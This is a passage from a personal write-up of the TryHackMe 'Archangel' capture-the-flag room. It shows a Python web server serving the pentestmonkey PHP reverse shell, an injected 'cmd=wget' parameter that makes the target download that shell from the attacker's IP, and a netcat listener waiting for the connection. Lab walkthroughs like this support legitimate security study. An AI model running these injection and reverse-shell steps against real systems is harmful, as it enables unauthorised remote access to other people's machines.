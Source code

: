![Pasted image 20250729123514.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250729123514.png)
## Reverse Shell

Now we can try to get a shell, we'll use pentestmonkey php [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md), you can find it here https://github.com/pentestmonkey/php-reverse-shell,(make sure to change the IP and listening port) we copy that to our directory and host a [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) web server :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Archangel]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

And we get it from [Caido](../../3%20-%20Tags/Hacking%20Tools/Caido.md) : `&cmd=wget%20http://10.8.162.183:80/php-reverse-shell.php`

And we can see the download on the server :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Archangel]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

10.10.10.239 - - [29/Jul/2025 12:43:14] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.239 - - [29/Jul/2025 12:43:15] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.239 - - [29/Jul/2025 12:43:16] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

Now we set up our listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Archangel]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

```

